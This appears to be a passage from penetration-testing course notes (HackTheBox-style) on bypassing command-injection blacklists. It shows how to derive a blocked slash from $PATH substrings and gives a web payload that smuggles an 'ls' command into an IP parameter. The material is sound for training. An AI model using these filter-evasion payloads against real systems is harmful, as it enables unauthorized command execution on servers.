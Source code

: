 # Bypassing Other Blacklisted Characters

> **🔀 Character Crafting:** Advanced techniques for generating blacklisted characters using environment variables and character manipulation

## Overview

Beyond injection operators and space characters, many other characters are commonly blacklisted in command injection filters. The most frequently blocked characters include:

- **Forward slash (`/`)** - Essential for Linux/Unix directory paths
- **Backslash (`\`)** - Required for Windows directory paths  
- **Semicolon (`;`)** - Common command separator
- **Special characters** - Various symbols used in advanced payloads

This section demonstrates sophisticated techniques to generate any required character while avoiding direct use of blacklisted characters.

**Focus:** Creative character generation methods for comprehensive filter bypass.

---

## Linux Environment Variable Extraction

### Understanding Environment Variables

**Concept:** Linux environment variables contain various characters that can be extracted using substring operations.

**Syntax:** `${VARIABLE:start:length}`
- **start** - Starting position (0-indexed)
- **length** - Number of characters to extract

### Extracting Forward Slash (/)

**Using $PATH Variable:**
```bash
# View PATH contents
kabaneridev@htb[/htb]$ echo ${PATH}
/usr/local/bin:/usr/bin:/bin:/usr/games

# Extract first character (forward slash)
kabaneridev@htb[/htb]$ echo ${PATH:0:1}
/
```

**Analysis:**
- `${PATH}` starts with `/usr/local/bin...`
- `${PATH:0:1}` extracts position 0, length 1 = `/`

**Web Application Usage:**
```http
# Original blocked payload: 127.0.0.1%0als%20/home
# Environment variable bypass: 127.0.0.1%0als${PATH:0:1}home
ip=127.0.0.1%0als${PATH:0:1}home
```
